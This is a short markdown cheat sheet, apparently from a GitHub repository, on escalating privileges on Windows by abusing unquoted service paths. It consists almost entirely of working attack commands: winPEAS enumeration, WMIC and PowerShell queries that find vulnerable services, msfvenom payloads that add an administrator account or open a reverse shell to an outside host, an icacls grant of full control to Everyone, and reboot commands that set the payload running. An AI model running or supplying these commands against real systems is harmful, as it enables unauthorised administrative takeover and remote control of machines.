 # Privilege escalation

## Summary
* [Automate enumeration](#automate-enumeration-for-privilege-escalation)
* [Unquoted service paths exploitation](#unquoted-service-paths-for-privilege-escalation)

## Automate enumeration for privilege escalation
```
winpeasx64.exe
```
## Unquoted service paths for privilege escalation
#### List all unquoted service paths
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
Get-WmiObject -Class Win32_Service | Where-Object { $_.PathName -inotmatch "`"" -and $_PathName -inotmatch ":\\Windows\\" }| select name,pathname
```
#### Generate a payload
```
msfvenom -p windows/exec CMD='net localgroup administrators sage /add' -f exe-service -o Devservice.exe (upgrade a user to privileged user)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=1.1.1.1 LPORT=4242 -f exe-service -o Devservice.exe (reverse shell)
msfvenom -p windows/adduser USER=Admin PASS=Admin123 -f exe-service -o Devservice.exe (add user to admin group) 
```
#### Change the file permission
```
icacls 'C:\Program Files\Devservice.exe' /grant Everyone:F
```
#### Since the service is 'Auto-Starts', restarting the machine will run the payload
```
shutdown /r /t 0
Restart-Computer
```
